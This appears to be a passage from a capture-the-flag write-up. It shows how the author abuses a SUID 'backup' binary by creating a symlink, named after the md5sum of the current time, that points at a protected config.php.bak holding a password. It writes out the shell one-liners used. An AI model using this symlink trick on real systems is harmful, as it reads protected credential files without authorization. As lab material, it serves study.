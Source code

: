 ![](images/varBackups.png)

from the note.txt file found in /var/backups we know that config.php.bak has a password so we need to read it somehow  

## soft link
so i knew that we need to use suid backup binary to read the config.php.bak file  
but initially i was only able to create a file that backup binary can read using this bash command  
and i could not figure out a way to read config file because we don't have permission to copy the file to md5sum name  
```
echo "something" > $(date | cut -d ' ' -f 4 | tr -d '\n' | md5sum | cut -d ' ' -f 1); /usr/bin/backup
```

![](images/suidTry.png)

and then I remembered about soft links   
so we can just create a soft link with md5sum name that points to the config file  
for some reason this only worked in the chiv's home directory  
```
ln -s /var/backups/config.php.bak $(date | cut -d ' ' -f 4 | tr -d '\n' | md5sum | cut -d ' ' -f 1); /usr/bin/backup
```
